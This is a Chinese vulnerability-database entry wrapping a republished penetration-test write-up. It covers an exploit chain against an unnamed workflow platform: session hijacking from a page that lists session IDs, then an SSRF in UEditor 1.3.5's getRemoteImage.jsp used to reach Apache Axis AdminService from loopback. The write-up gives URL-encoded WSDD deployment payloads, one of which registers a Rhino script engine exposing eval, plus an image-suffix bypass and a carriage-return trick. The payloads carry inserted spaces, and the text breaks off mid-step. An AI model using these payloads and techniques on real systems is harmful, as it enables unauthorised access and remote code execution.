# 未公开身份流程管控平台/UEditor/Apache Axis session泄露及SSRF到Axis管理部署链

## 条目说明

- 对象与具体问题：未公开身份流程管控平台/UEditor/Apache Axis；session泄露及SSRF到Axis管理部署链
- 版本、配置及部署条件：平台版本未知；UEditor1.3.5、Axis≤1.4泛称，JDK Rhino依赖
- 认证与权限前提：session泄露与Axis loopback管理为不同路径
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 不应从某行业猜厂商，标匿名案例/研究而非商业产品实体；FOFA字段抽成一千多个废值
- Axis1.4存在RCE不能忽略AdminService本地限制、可注册服务及JDK类可用条件
- 编码payload含x mlns/x ml/s cript/j avas cript/e val插入空格，按原样类名/XML无效，需要合法原文核对
- getRemoteImage.jsp与实验remote.jsp路径不同应注明自建复现；空指针断言只能框架原因过度推论
- 双编码/CR处理与SSRF后缀绕过为有价值研究，服务部署造成持久配置变化须清理
- 作者版权保留，删征稿/推荐导航；关键最终服务调用只图片无文字

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sesveh4L_8osXt7HpVC9Nw)

**本文首发于****奇安信攻防社区**  

**社区有奖征稿**

· 基础稿费、额外激励、推荐作者、连载均有奖励，年度投稿 top3 还有神秘大奖！

· 将稿件提交至奇安信攻防社区（点击底部 阅读原文 ，加入社区）

[点击链接了解征稿详情](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489051&idx=1&sn=0f4d1ba03debd5bbe4d7da69bc78f4f8&scene=21#wechat_redirect)

**前言**
======

某一天 7iny 好兄弟找到一套源代码 (安装包)，看了一下不少问题。就从这套系统代码开始渗透吧。看了一下 fofa, 有一千多个。  


#### **step1**

收到源码后发现几个有意思的功能：

1、`/manage/index.jsp`直接列举出来了所有当前的`sessionID`。  
有了 session，我们只需要找到在线的 session 然后替换我们当前的 seesionID 可既可以登录当前系统

  
好家伙。这么多用户，我们可以登录去用户系统了。打了渗透的大门。


2、进去后发现还有个路径`/mobile/phone/main.jsp`就是手机端的主页面  
  
还有一些报表的页面，  
  
进去后很可惜发现没有可 RCE 的点。

#### **step2**

1.  发现了一个 AXIS 服务。  
      
    axis<=1.4 版本存在 RCE，尝试使用已知 payload 打一下，毫无意外的 remote user access is not allowed.
    

  
也就是说只需要找到一个 SSRF，本地调用即可。  
7iny 帮我找到一个利用点，`/common/ueditor1_3_5-utf8/` 发现一个 ueditor



这个编辑器存在一个 SSRF。  
`/common/ueditor1_3_5-utf8/jsp/getRemoteImage.jsp?upfile=`  
使用 AXIS 的 get 型 payload 尝试一下，发现图片类型不正确。  


#### **step3**

知道是 AXIS, 有`getRemoteImage.jsp`的源码，本地搭建一个环境来 debug, 开启 debug 模式`./catalina.sh jpda start`

##### _**第一次尝试 (先盲猜一下)**_**：**

既然是需要结尾需要一个. jpg。我们在 URL 后直接加. jpg 结尾。也就是：&xx=xx.jpg

```
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment&xx=xx.jpg
```

发现还是被 ban。还是提示图片类型不正确。预料之中。

###### _**第二次尝试**_**：**

看一下 remote.jsp 的源码。很简单，就是远程下载一个图片，依次遍历每个参数，并且判断是不是以”.gif” , “.png” , “.jpg” , “.jpeg” , “.bmp” 这些结尾。如果不是图片或者不正确则报错。



  
现在尝试一下，直接接一个. jpg。看一下是不是爆出” 请求地址头不正确”，这个我们预期的结果。

```
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment.jpg
```

  
遗憾的是并不是预期的结果，而是报了一个空指针，事实上，看 remote.jsp 的代码是不会有空指针爆出来，那就只能是框架爆出来的，既然是框架一般而言是有不合法的字符出现会出现此类的情况。  
最后发现是 %20, 不能有空格，因为提交的是 x ml 格式的数据，里面的空格用来做字符的分割，既然不能有空格，那我们直接用换行 %0d%0a，试试看是否可以。

```
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeploymenta%0d%0axxx
```

发现还是空指针。后面通过尝试，只有 %0d 可以，%0a 不行。是不是真的能否作为 x ml 的分隔符现在还不知道。

###### _**第三次尝试：**_

开始绕过图片为结尾的后缀，在 get 类型的 payload 中，发现开头有一个!—>，debug 一下跟到代码处，发现是为了做一个拼合。  
  
代码如下：  
  
最终拼接后为：  
  
刚好把第一个 payload 注释，第二个生效。现在我们只需要做填空题。在结尾拼接就行`<xxx.jpg></xxx.jpg`即可，当然结尾的 > 会给我们自动闭合，刚好以. jpg 结尾，所以新的 payload 如下：  
所以我们只需要在结尾加上`><xx.jpg></xx.jpg` 即可  


使用 %0d，以及我们拼接的 xx.jpg payload 来提交，debug 后发现 %0d 后的东西丢了

```
http://localhost:8080/remote.jsp?upfile=http://localhost:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%0dx mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%0dx mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%0dname%3D%22m00gege%22%0dprovider%3D%22java%3ARPC%22%3E%3Cparameter%0dname%3D%22className%22%0dvalue%3D%22com.sun.s cript.j avas cript.Rhinos criptEngine%22%0d%2F%3E%3Cparameter%0dname%3D%22allowedMethods%22%0dvalue%3D%22e val%22%0d%2F%3E%3CtypeMapping%0ddeserializer%3D%22org.apache.axis.encoding.ser.BeanDeserializerFactory%22%0dtype%3D%22java%3Ajavax.s cript.Simples criptContext%22%0dqname%3D%22ns%3ASimples criptContext%22%0dserializer%3D%22org.apache.axis.encoding.ser.BeanSerializerFactory%22%0dx mlns%3Ans%3D%22urn%3Abeanservice%22%0dregenerateElement%3D%22false%22%3E%3C%2FtypeMapping%3E%3C%2Fservice%3E%3C%2Fdeployment%3E%3Cxx.jpg%3E%3C/xx.jpg
```

访问  
